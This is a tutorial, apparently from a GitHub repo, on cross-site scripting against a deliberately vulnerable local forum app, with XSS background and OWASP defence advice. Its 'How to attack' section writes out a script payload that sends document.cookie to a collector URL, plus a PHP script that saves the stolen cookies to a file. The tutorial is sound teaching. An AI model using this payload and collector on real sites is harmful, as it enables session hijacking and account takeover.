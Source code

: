 >   This was a repo forked from postShuffle, a forum app written with node.js. It's designed to be
>   single-page (meaning that once the forum initially loads, all UI is controlled
>   by client-side code).

### Overview

Clone this [playground repo](https://github.com/hbxz/postShuffle), you can run a local blog server and exploit it's XSS vulnerability, **legally**. 

>   I suggest that you only attack a website in your local machine. 

Use the admin account, (cause the register function is buggy at the moment) you can post a blog, comment on others. Simply put, it is a localhost website that accepts and displays UGC (user generated contents).

If you try to post some plain HTML strings, e.g `<h1>hello world</h1>`  you might find that the post and comment  dose not escape perfectly. There can be some loophole of HTML injection. 

You can try to attack it using some [helpful XSS payload example](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection). I will show you one small example. 

Also check this awesome video: [Cookie Stealing - Computerphile](https://www.youtube.com/watch?v=T1QEs3mdJoc).

### What is XSS

>   Check this [owasp xss artical](https://owasp.org/www-community/attacks/xss/).
>
>   Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 

Correct me if I'm wrong. My understanding is:

1.  a website has **HTML injection** vulnerability that can lead to **JS injection**

2.  this website presents UGC on other user's browsers

3.  Combining 1 and 2, an attacker can post malicious content that will run on other user's browsers. 
4.  And this malicious content can enjoy the trust and access right as the current website has on target browsers.

This makes cookie stealing possible. E.g: lots of websites use JWT as the passport for authentication. If someone has your JWT, he/she has all your access right. 



### How to attack

-   Identify an XSS endpoint:
    `<script>debugger;</script>`
    
    `<script>console.log('hello JS');</script>`
    
-   stealing cokkie:
    `<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>`

Write the collected data into a file.

```
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
```

Here shows when I inject the js code as a post, this blog web page excute it and request a URL with current cokkie:

![image-20200424113844902](xss_tutorial.assets/image-20200424113844902.png)



### How to defend

It starts from HTML injection. So bisic idea is escaping all the HTML content to it's orignal intended format. Performing the appropriate validation and escaping on the server-side is the core of solution.

Also check this [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).



### Summary

Hey friend. Hope you have fun and get some feeling on "what XSS is". 

>   Please, please, don't get yourself in trouble by having fun illegally. 

Well, it just so happens, my [capstone project](https://github.com/hbxz/capstone-project-sunshine-waiter) also use JWT on access control. I'm the backend guy and responsible for security on all the APIs. You can run it locally and try to crack it. 

If you find any vulnerability, would you mind posting it on the issues so that I can learn from you as well?

Wish have FUN and stay safe!